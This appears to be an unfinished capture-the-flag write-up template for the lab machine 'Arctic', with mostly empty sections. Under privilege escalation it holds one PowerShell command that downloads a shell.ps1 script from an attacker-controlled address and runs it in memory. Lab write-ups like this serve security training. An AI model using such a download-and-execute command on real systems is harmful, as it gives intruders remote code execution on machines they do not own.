 Name & IP Address of Machine:
> Arctic : `10.10.10.11`
<!-- TOC -->

- [Synopsis](#synopsis)
- [Enumeration](#enumeration)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->



## Synopsis


## Enumeration
Opened Ports: 
- [ ] .



## FootHold

## Lateral Movement

## Privilege Escalation

```cmd
powershell iex(new-object net.webclient).downloadString('http://10.10.14.28:8000/shell.ps1')
```

<!-- ## Thank You 
🕉️  -->


<!-- ## Tools Used.
- [ ] . -->